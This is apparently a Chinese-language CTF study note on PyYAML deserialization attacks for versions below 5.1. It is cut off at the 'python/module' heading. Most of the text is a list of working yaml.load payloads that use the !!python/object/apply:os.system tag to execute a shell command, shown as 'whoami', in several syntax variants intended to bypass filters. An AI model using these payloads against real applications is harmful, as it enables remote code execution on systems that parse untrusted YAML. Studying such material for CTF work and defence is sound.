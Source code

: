 ## 文章

[SecMap - 反序列化（PyYAML） - Tr0y's Blog](F:\LocalCTF\SecMap - 反序列化（PyYAML） - Tr0y's Blog.html)

## 攻击思路

### 版本 < 5.1

#### python/object/apply

`python/object/apply` 要求参数必须用一个列表的形式提供，所以以下 payload 都是等价的，但是写法不一样，可以用来绕过：

```python
yaml.load('exp: !!python/object/apply:os.system ["whoami"]')

yaml.load("exp: !!python/object/apply:os.system ['whoami']")

# 引号当然不是必须的
yaml.load("exp: !!python/object/apply:os.system [whoami]")

yaml.load("""
exp: !!python/object/apply:os.system
- whoami
""")

yaml.load("""
exp: !!python/object/apply:os.system
  args: ["whoami"]
""")

# command 是 os.system 的参数名
yaml.load("""
exp: !!python/object/apply:os.system
  kwds: {"command": "whoami"}
""")

yaml.load("!!python/object/apply:os.system [whoami]: exp")

yaml.load("!!python/object/apply:os.system [whoami]")

yaml.load("""
!!python/object/apply:os.system
- whoami
""")
```

#### python/object/new

基本和 `python/object/apply` 相同

#### python/module
